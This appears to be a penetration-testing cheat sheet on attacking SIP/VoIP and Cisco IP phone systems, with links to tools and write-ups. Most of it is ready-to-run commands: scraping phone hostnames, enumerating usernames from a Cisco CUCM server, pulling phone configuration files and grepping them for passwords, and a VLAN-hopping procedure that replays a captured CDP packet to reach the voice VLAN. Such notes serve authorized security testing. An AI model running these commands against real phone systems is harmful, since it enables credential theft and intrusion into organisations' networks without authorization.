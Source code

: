 ```yaml
---
description: Session Initiation Protocol / Voice over IP
---
```


# SIP / VoIP

- [https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4](https://medium.com/vartai-security/practical-voip-penetration-testing-a1791602e1b4)
- [https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/](https://www.hackingarticles.in/penetration-testing-on-voip-asterisk-server-part-2/)




## Cisco IP Phones

- [https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/](https://www.trustedsec.com/blog/seeyoucm-thief-exploiting-common-misconfigurations-in-cisco-phone-systems/)
- [https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/](https://www.n00py.io/2022/01/unauthenticated-dumping-of-usernames-via-cisco-unified-call-manager-cucm/)
- [https://github.com/n00py/CUCMe/blob/main/cucme.sh](https://github.com/n00py/CUCMe/blob/main/cucme.sh)
- [https://github.com/trustedsec/SeeYouCM-Thief](https://github.com/trustedsec/SeeYouCM-Thief)
- [https://github.com/llt4l/iCULeak.py](https://github.com/llt4l/iCULeak.py)
- [https://github.com/Bond-o/vnum](https://github.com/Bond-o/vnum)

Scrap Cisco IP Phone web interfaces by IPs to get the corresponding host names:

```
$ for i in `cat phones_ip.txt`; do curl -s http://$i | grep -oP 'SEP[A-Z0-9]+' | uniq | tee -a phones.txt; done
```

Enumerate usernames on a Cisco CUCM server:

```
$ bash cucme.sh CUCM01.megacorp.local
Or
$ python3 thief.py -H CUCM01.megacorp.local --userenum
Or
$ curl -sk 'https://cucm01.megacorp.local:8443/cucm-uds/users?lastName=' | grep -oP '<firstName>.*?</firstName><lastName>.*?</lastName>' | sort -u | tee cucm_users.txt
```

Enumerate credential leaks on Cisco IP Phones:

```
$ python3 iCULeak.py -nA -c CUCM01.megacorp.local -l phones.txt 192.168.1.11
Or
$ for i in `cat phones.txt`; do curl -s http://cucm01.megacorp.local:6970/$i.cnf.xml | grep -i pass; done
```



### VLAN Hopping on Cisco Voice

- [https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/](https://savvyadmin.com/vlan-hopping-on-cisco-voice-enabled-switch-ports/)

Capture the first CDP advertisement while plugged through the phone:

```
$ sudo tcpdump -s 0 -w cdp-packet.cap -c 1 -ni eth0 ether host 01:00:0c:cc:cc:cc
$ sudo tcpdump -vr cdp-packet.cap
```

Relay it once a minute to simulate a legit phone device:

```
$ sudo watch -n 60 "tcpreplay -i eth0 cdp-packet.cap"
```

Configure a sub-interface to access the voice VLAN:

```
$ sudo vconfig add eth0 1337
$ sudo ifconfig eth0.1337 up
$ sudo dhclient -v eth0.1337
```
